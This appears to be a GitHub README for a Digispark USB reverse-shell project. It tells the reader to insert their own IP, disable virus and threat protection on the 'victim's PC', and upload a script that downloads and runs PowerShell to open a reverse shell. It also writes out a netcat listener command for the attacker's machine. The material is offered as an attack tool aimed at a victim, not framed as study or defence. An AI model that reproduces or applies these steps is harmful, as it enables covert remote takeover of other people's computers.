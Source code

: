 # Digispark-reverseshell
how to create a revershell with digispark ,
in the place of given ip in line change it to your ip , 
turn of the virus and threat protection in victims pc .
This script downloads and executes a powershell script efectively opening up a reverse shell in less than 30 seconds. 
// This script credits to Ethical Hacking youtube channel -- https://www.youtube.com/channel/UCYujGFwVKJbiweT0kd6CwLg
// This script contains ip address of 172.17.45.102 , change it to the hackers ip
// 87 behind the ip is the port . You can change it to your desire in both the script here and the hackers opening port
// enter the above command as root user in linux ---  stty raw -echo; (stty size; cat) | nc -lvnp 87 -s 172.28.131.38  --- (-s here is ip ) behind -lvnp is the port 
upload this script  in arduino at digispark
